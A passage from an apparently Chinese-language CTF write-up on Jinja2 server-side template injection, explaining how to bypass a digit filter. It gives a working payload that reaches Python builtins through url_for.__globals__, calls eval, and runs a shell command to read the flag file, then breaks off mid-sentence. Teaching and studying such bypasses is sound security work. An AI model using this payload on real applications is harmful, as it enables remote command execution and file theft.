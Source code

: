 [![在这里插入图片描述](assets/1698900310-c476c5b1e7b97e221b2165409b076622.png)](https://storage.tttang.com/media/attachment/2022/08/14/4e82e130-4871-476e-b476-af0069b77850.png)  
过滤了数字，这个比较简单了就，我们可以利用不涉及数字的，直接就绕过了  
这里给出一个 payload

```bash
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```

[![在这里插入图片描述](assets/1698900310-8ff6f88a80013eacd9cdbf28c322e252.png)](https://storage.tttang.com/media/attachment/2022/08/14/e2be2ab1-c2bf-4f4e-9841-cf239ae857c7.png)  
不过正常的思路的话应该是用 join 进行拼接后，加上 count，从而得到想得到的数字，举个例子
